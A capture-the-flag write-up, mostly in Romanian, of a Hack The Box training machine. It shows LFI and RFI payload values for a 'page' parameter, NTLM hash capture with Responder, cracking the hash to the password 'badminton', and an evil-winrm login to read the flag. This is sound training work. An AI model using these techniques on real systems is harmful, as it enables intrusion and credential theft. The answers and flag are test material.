 1. When visiting the web service using the IP address, what is the domain that we are being redirected to?
To ce avem nevoie casa dam raspuns la intrebarea date este sa acesam [[IP]] adresa.
`http://unika.htb/` vedem ca am fost redictionati la adresa 
![[Pasted image 20230904235556.png]]
Ca sa putem acesa resursul nostru aven nevoie sa modificam un pic fisierul `hosts` in felul urmator.
![[Pasted image 20230905074213.png]]
Aceasta inseamna ca facem o asociere locala pentru [[IP]] si [[DNS]].
2. Which scripting language is being used on the server to generate webpages?
In acesta caz putem afla cu ajutorul la mai multe instrumente care este limbajul eu am folosit 2 [[whatweb]], [[wappalyzer]]. 
![[Pasted image 20230905075135.png]]
Putem vedea ca limbajul este [[PHP]] 
![[Pasted image 20230905075231.png]]
Raspunsul la intrebare `PHP`
3. What is the name of the URL parameter which is used to load different language versions of the webpage?
![[Pasted image 20230905075437.png]]
Raspunsul este `page`
4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
Raspunsul este `../../../../../../../../windows/system32/drivers/etc/hosts` 
5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
Raspunsul este `//10.10.14.6/somefile`
6. What does NTLM stand for?
Raspunsul este `New Tehnology LAN Manager`
![[Pasted image 20230905080941.png]]
7. Which flag do we use in the Responder utility to specify the network interface?
In practica mea eu nu mam folosit nici o data de instrumentul [[responder]].
![[Pasted image 20230905081237.png]]
Raspunsul este `-I`
Pentru a captura [[NTLM]] rulam [[responder]] cu optiounea de -I pe interfata unde este masina care trebuie atacata. Si cu un [[RFI-LFI]] putem sa facem o cerere care ne va permite sa capturam hasul pentru administrator.
![[Pasted image 20230905085139.png]]
![[Screenshot_20230905_085417.png]]
8. What is the password for the administrator user?
Cu ajutorul la [[john]] putem gasi parola dar nu am inteles de ce nu merge cand specific parametrul `--format=netntlm`
![[Pasted image 20230905090248.png]]
Raspunsul este `badminton`
9. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
![[Pasted image 20230905090855.png]]
Am aflat ca avem 2 porturi deschise.
Dar la intrebarea avem nevoie de portul `5985`
10. Flag.
Avem nevoie sa facem conexiunea cu hostul nostru am crezut ca va fii posibil cu [[rwinrm]] dar nu am putut face o conexiune stabila chear de loc nu mam putut conecta.
Am deschis Write-UP-ul si am vazut ca se foloseste instrumentul [[evil-winrm]]
```bash
evil-winrm -i <IP> -u <user> -p <password>
```
Ca sa gasim unde este localizat flagul folosim comanda:
```Power-Shell
Get-ChildItem -Path "C:\" -Filter "flag.txt" -Recurse
```
![[Pasted image 20230905095301.png]]
Am gasit flagul acum sa vedem ce este in el:
```Power-Shell
Get-Content C:\Users\mike\Desktop\flag.txt
```
![[Pasted image 20230905095355.png]]
Flagul este `ea81b7afddd03efaa0945333ed147fac`

